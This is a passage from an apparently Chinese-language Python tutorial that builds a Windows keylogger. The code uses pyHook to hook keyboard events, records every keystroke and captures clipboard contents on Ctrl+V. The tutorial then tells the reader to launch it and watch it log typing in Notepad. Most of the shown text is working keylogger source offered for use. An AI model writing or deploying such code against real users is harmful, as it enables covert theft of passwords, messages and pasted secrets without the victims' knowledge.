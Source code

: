 ```
        current_window = event.WindowName
        # 函数调用
        get_current_process()

    # 检测击键是否常规按键（非组合键等）
    if event.Ascii > 32 and event.Ascii <127:
        print chr(event.Ascii),
    else:
        # 如果发现 Ctrl+v（粘贴）事件，就把粘贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print "[PASTE]-%s" % (pasted_value),
        else:
            print "[%s]" % event.Key,
    # 循环监听下一个击键事件
    return True

# 创建并注册 hook 管理器
kl = pyHook.HookManager()
kl.KeyDown = KeyStroke

# 注册 hook 并执行
kl.HookKeyboard()
pythoncom.PumpMessages()

```

【知识点】钩子(Hook)：Windows 消息处理机制的一个平台,应用程序可以在上面设置子程以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。

撸代码时一定要注意严格区分大小写。检查无误后启动 keylogger：

![enter image description here](img/img3_u140_png.jpg)

然后可以尝试打开记事本写点东西，过程中可以看到我们的 keylogger 窗口正在对我们的输入实时记录：

![enter image description here](img/img4_u64_png.jpg)
